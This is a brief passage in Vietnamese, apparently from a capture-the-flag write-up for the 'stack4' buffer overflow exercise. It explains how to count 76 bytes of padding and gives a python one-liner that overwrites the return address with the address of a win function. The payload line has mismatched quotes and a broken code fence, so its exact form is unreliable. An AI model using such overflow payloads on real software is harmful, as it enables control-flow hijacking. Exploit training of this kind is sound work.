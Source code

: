 Ta có thể thấy esp dành ra 0x50 memory layout để chưa biến và hàm vậy làm cách nào để tính , ta lấy 0x50 - 4 , vì sao trừ bốn vì tạo vùng nhớ có đ/c đó lấy đi 4 ký tự gì đó thì đó là 4 bytes.

Vậy ta được 76 ký tự (bytes) với đ/c hàm win.

## PayLoad

```python
 python -c "print 'A' * 76 + ' '\xf4\x83\x04\x08''" | ./stack4
``
```
